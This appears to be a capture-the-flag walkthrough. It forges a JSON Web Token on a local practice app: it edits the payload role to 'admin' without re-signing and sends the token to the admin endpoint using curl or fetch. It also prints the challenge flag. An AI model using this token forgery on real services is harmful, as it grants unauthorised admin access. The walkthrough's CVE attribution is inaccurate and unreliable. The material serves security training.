 **HOW TO SOLVE: TOKEN OF DECEIT**

1. Sign up
   
     •	Create an account to be automatically assigned the "user" role.

2. Login

     •	After account creation, you’ll be redirected to the login page.
     •	Use the same credentials to log in.
     •	Upon successful login, the server generates and sends a JWT.

3. Decode the JWT without verifying the signature
   
     a. Open the console:
       •	On MacOS, press (Option + Command + J).
       •	On Windows, press (Ctrl + Shift + J).
       
     b. You’ll see the following message: **GET http://localhost:3000/admin 403 (Forbidden)**
     c. Run the following command in the console to get the token, containing three parts, each separated by a period (.):
   
        localStorage.getItem('token');
      
     d. The token role will be "user" as per your credentials.
     e. Visit jwt.io and paste the JWT into the "Encoded" field to view the decoded payload.

4. Manipulate the JWT Payload
     a. Change the role to "admin".
   
       For example:
       {
         "username": "isabella",
         **"role": "admin",**
         "iat": 1738901843,
         "exp": 1738905443
       }
     b. No need to re-sign the token, as the program has a vulnerability that does not verify the signature.
     c. Your JWT is now modified.

5. Send the Manipulated JWT to the Server (2 ways)
   You can use one of the following methods to send the modified JWT to the server:
   
   a. Using cURL (command line):
     •	Open your terminal and type:
     
       curl -H "Authorization: Bearer MANIPULATED-JWT" http://localhost:3000/admin
   
   b. Using the Browser Console:
     •	Run this JavaScript:
     
       fetch("http://localhost:3000/admin", {
           method: "GET",
           headers: {
               "Authorization": "Bearer MANIPULATED-JWT"
           }
       })
       .then(response => response.json())
       .then(data => console.log(data))
       .catch(error => console.error("Error:", error));

6. Access the Admin Endpoint and Retrieve the Flag
     a. The server will decode the manipulated token and grant admin access.
     b. The server will respond with the flag:
   
      {"flag":"ATHACKCTF{trust_is_a_vulnerability}"}

**Vulnerability:**
•	CVE-2022-23529 (jsonwebtoken <=8.5.1): The server fails to verify the JWT's signature, allowing the payload to be manipulated without detection.


Ensure that all dependencies required to build or run the solution are provided (e.g., `requirements.txt`) or thoroughly documented.
